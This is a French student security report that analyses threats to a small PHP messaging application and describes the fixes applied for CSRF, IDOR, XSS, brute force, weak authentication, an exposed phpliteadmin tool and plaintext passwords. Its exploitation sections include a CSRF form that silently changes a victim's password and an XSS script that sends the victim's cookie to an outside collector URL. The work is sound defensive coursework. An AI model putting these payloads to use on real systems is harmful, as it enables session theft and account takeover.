

# STI — Rapport d'analyse des menaces

* **Date** : 15.01.2020
* **Auteurs** : Nikolaos Garanis, Nemanja Pantic.

## Introduction

Ce projet est la suite du premier projet. Avec un binôme différent, il faut dans un premier temps faire une analyse des menaces qui mettent en danger la sécurité de l'application existante. Puis, dans un deuxième temps, il faut corriger les vulnérabilités de l'application.

## Description du système

### DFD



Nous faisons confiance à la sécurité de la base de données, au serveur PHP et aux administrateur.

### Identifier ses biens

Les biens sont les données privées de l'utilisateur ainsi que les messages échangés entre les utilisateurs.

### Perimètre de sécurisation

Comme demandé, seules les failles de sécurité relatives à l'application elle-même vont être corrigées. La sécurisation de l'OS, du serveur ou d'autres éléments ne font pas partie du scope de notre travail.

## 1. CSRF

#### Menace

L'application est vulnérable aux attaques CSRF sur tous ses formulaires. Un attaquant peut alors amener un utilisateur à exécuter à son insu les actions suivantes :

1. Suppression de n'importe quel message contenu dans la base de données (via le lien `/delete.php?delete=<id>`). Cela est possible en faisant soumettre à l'utilisateur un formulaire GET avec les bonnes valeurs.
2. Envoi ou réponse à un message (via les formulaires dans `send.php`).
3. Changement du mot de passe de l'utilisateur (via le formulaire dans `pwd.php`).
4. Création, suppression ou modification de n'importe quel utilisateur si la victime est un administrateur (via les formulaires dans `admin.php`).

#### Exploitation

Pour exécuter une attaque CSRF, l'attaquant assume que sa victime est déjà loggée sur le site web visé par l'attaque. Il va ensuite amené l'utilisateur à lui faire soumettre un formulaire qui contient les valeurs d'un formulaire du site web visé (par exemple le formulaire changement de mot de passe) afin que le site web visé croie que c'est une requête légitime qui provient de l'utilisateur loggé. L'attaquant peut par exemple amener l'utilisateur sur un site web de sa conception et lui présenter un formulaire qui, en apparence, lui permetterait d'écrire un commentaire à un article, alors qu'en fait le formulaire va soumettre un changement de mot de passe sur le site victime. Exemple du formulaire :

```html
<form action="http://message.app/pwd.php" method="post">
	<button type="submit" name="submit">Écrire un commentaire</button>
	<input type="hidden" name="password" value="nouveau_mdp_attaquant">
</form>
```

#### Contre mesure

Pour éviter les attaques CSRF nous générons un token à chaque fois qu'un formulaire est affiché et nous stockons sa valeur dans la session de l'utilisateur. Lorsque le formulaire est soumis (le token est un champ caché de ce formulaire), le token est vérifié avec la valeur présente dans la session.

Une limitation de cette solution est que si l'utilisateur ouvre une première page avec un formulaire, puis une deuxième avec un autre formulaire, alors la soumission du premier formulaire ne fonctionnera pas (puisque la valeur du token dans la session aura été changée).

## 2. Autorisation

#### Menace

Il est possible pour un utilisateur de lire, supprimer ou répondre à n'importe quel message contenu dans la base de données.

#### Exploitation

Il lui suffit simplement de visiter un des liens suivants en changeant l'id affiché :
* `/delete.php?delete=<id>`,
* `read.php?message=<id>`,
* `send.php?message=<id>`.

#### Contre mesure

Afin de  se  protéger contre cette vulnérabilité, une vérification a été rajoutée. Toute action sur un message doit être effectuée par le récipient du message. Cela a été corrigé dans les requêtes SQL correspondantes.

## 3. XSS

#### Menace

L'application est vulnérable aux injections XSS puisque le code HTML et Javascript est interprété lorsqu'il se trouve à certains endroits critiques comme :

* le corps d'un message et son sujet,
* le nom et prénom d'un utilisateur.

#### Exploitation

Il est donc tout à fait possible d'injecter du code Javascript pour, par exemple, récupérer le cookie d'un utilisateur à son insu en envoyant le message suivant :

```html
Corps du message…
</textarea> <!-- afin que ce qui suit ne s'affiche pas dans la réponse au message -->
<script>fetch('https://enons72ccci9o.x.pipedream.net/' + document.cookie)</script>
```

#### Contre mesure

Afin que le code HTML et Javascript ne puisse être interprété (lorsqu'il est injecté dans du code HTML), nous avons échappé les données provenant de l'utilisateur en utilisant la fonction PHP `htmlspecialchars`. Cela a été implémenté dans la fonction `anti_xss` dans `secure.php`.

## 4. Injections SQL

Aucune possibilité d'injection SQL n'a été trouvée car nous utilisons la librairie PDO et ses méthodes prepare et execute. Celles-ci fournissent déjà un niveau de protection contre les injections SQL.

## 5. Brute force

#### Menace

L'application ne dispose d'aucune protection contre le brute force, que ce soit lors du login d'un utilisateur, lorsqu'un utilisateur change son mot de passe (et qu'il doit rentrer son mot de passe actuel) ou dans l'interface d'administration.

#### Exploitation

Technique standard de brute force, par exemple avec le logiciel Hydra.

#### Contre mesure

Plusieurs solutions sont possibles pour combler cette vulnérabilité. Par exemple, une colonne indiquant le nombre de login raté pourrait être rajouté dans la table utilisateur. Une fois une certaine valeur dépassée, le compte est bloqué. Pour débloquer le compte, un mail pourrait être envoyé à l'utilisateur (donnée qui n'existe pas dans notre application). Sinon, le compte pourrait être débloqué par un administrateur, mais il faudrait un moyen de communication entre l'administrateur et la personne ayant son compte bloqué (ce qui n'est pas le cas de notre application). C'est pour cette raison que nous n'avons pas implémenté cette fonctionnalité.

Il serait aussi possible de limiter le brute force au niveau des adresses IP mais cela sort du champ de notre application.

## 6. Authentification

#### Menace

Lorsque l'utilisateur souhaite changer son mot de passe, le mot de passe actuel n'est pas demandé. Ceci est un problème car un attaquant ayant volé la session d'un utilisateur—mais qui ne connait pas son mot de passe—pourait alors le changer.

#### Exploitation

En faisant une attaque CSRF comme décrit plus haut ou bien en volant le cookie de l'utilisateur (par exemple via injection XSS).

#### Contre mesure

Afin de corriger cette faiblesse un champ a été rajouté pour que l'utilisateur puisse entrer son mot de passe actuel afin de le changer (dans le champ suivant).

## 7. Site map

#### Menace

Un attaquant essayant des noms de répertoire commun peut voir la présence d'un répertoire `extern` avec un fichier `phpliteadmin.php` dedans, lequel permet d'accéder à l'intégralité de la base de données avec le simple mot de passe par défaut "admin".

#### Exploitation

Nous avons utilisé DirBuster avec une liste prédéfinie de répertoires courants.

#### Contre mesure

Le répertoire `extern` a été supprimé ainsi que les fichiers qui s'y trouvaient. Aucune autre mesure n'a été prise, cela devrait plutôt être fait au niveau du serveur d'application (par exemple pour éviter le brute force selon les IP).

## 8. Mots de passe

#### Menace

Les mots de passe étaient stockés en clair dans la base de données ce qui est un manque totale de confidentialité dans le cas d'un vol de la base de données ou simplement par rapport aux administrateur qui y ont accès. Les mots de passe des utilisateurs par défaut étaient aussi beaucoup trop simples.

#### Exploitation

Des mots de passe trop simple facilitent les attaques par brute force.

#### Contre mesure

Pour les utilisateurs par défaut, leur mot de passe a été généré aléatoirement et contient 16 caractères. De plus, les mots de passe sont maintenant hashés avec la fonction PHP `password_hash` avec l'algorithme Bcrypt. Celle-ci utilise un sel aléatoire pour chaque mot de passe.

Nous avons aussi décidé d'imposer certaines règles lorsqu'un utilisateur choisit son mot de passe. Le mot de passe doit contenir 10 caractères et posséder au moins une majuscule, une minuscules, un chiffre et un caractère spécial.

## Conclusion

Bien que le projet soit assez basique, il fut fort intéressant de chercher des potentielles failles, de tenter de les exploiter et évidemment de chercher des moyens de les corriger. En particulier l’implémentation des tokens CSRF et l'échappement des entrées utilisateurs car se sont des vulnérabilités très courantes.